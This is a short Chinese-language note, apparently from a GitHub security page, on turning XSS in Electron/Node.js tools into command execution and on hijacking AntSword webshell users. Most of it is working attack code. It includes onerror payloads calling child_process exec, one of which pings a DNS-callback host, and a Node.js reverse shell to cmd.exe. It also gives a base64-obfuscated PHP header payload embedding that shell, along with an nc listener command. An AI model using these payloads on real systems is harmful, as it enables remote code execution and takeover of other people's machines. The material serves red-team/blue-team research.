 ## **electron开发的nodejs环境工具**
利用漏洞如CVE-2024-4367 - 在 PDF.js组件执行xss导致命令执行，反弹shell等。

若能xss直接rce：
```
<img src=x onerror="const{exec}=require('child_process');exec('start calc.exe');">
<img src=x onerror="const{exec}=require('child_process');exec('ping rce.2qytvx.ceye.io');">
const{exec}=require('child_process');exec('ping rce.2qytvx.ceye.io');
```

## **Antsword蚁剑反制**
蓝队通过修改后门的代码实现获得蚁剑使用者的权限
复现环境：

* 蓝队：Linux Web
* 红队：Windows Antsword

原理：修改对方的一句话木马代码内容，嵌入js代码，蚁剑内置有nodejs运行环境。
```
<?php header('HTTP/1.1 500 <img src=# onerror=alert(1)>');
```

上线：使用Nodejs 代码反弹shell

```
var net = require("net"), sh = require("child_process").exec("cmd.exe");
var client = new net.Socket();
client.connect(xx, "xx.xx.xx.xx",function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
```

Nodejs 代码：

> 编码组合后：

```
<?php 
header("HTTP/1.1 500 Not <img src=# onerror='eval(new Buffer(`dmFyIG5ldCA9IHJlcXVpcmUoIm5ldCIpLCBzaCA9IHJlcXVpcmUoImNoaWxkX3Byb2Nlc3MiKS5leGVjKCJjbWQuZXhlIik7CnZhciBjbGllbnQgPSBuZXcgbmV0LlNvY2tldCgpOwpjbGllbnQuY29ubmVjdCgxMDA4NiwgIjEyNy4wLjAuMSIsIGZ1bmN0aW9uKCl7Y2xpZW50LnBpcGUoc2guc3RkaW4pO3NoLnN0ZG91dC5waXBlKGNsaWVudCk7c2guc3RkZXJyLnBpcGUoY2xpZW50KTt9KTs=`,`base64`).toString())'>");
```

然后启用监听

```
nc -vlp 10086
```

当红队继续使用蚁剑连接后门时，拿到红队机器权限

> 攻击者在连接shell时，会爆红色错误
> 权限取决于蚁剑使用者的权限
> 关闭蚁剑也不会掉权限



